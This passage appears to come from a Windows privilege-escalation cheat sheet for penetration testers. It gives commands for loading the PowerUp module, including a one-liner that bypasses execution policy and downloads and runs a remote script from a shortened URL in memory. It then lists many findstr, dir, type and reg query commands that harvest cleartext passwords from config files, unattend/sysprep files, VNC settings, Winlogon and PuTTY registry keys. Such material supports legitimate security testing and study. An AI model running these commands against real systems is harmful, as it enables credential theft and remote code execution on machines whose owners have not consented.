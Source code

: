 Import the PowerUp module with the following:

`PS C:\>` `Import-Module PowerUp.ps1`

If you want to invoke everything without touching disk, use something like this:

`C:\> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”`

## Finding stuff fast

#### ClearText passwords \(quick hits\)

`findstr /s /C:"stringtosearchfor.txt" "C:*"`

We might sometimes find passwords in arbitrary files, you can find them running:

```text
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
```

#### Find all those strings in config files.

```text
dir /s *pass* == *cred* == *vnc* == *.config*
```

#### Find all passwords in all files.

```text
findstr /spin "password" *.*
```

```text
findstr /spin "password" *.*
```

These are common files to find them in. They might be base64-encoded. So look out for that.

```text
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
```

```text
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```

#### Stuff in the registry:

```text
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```
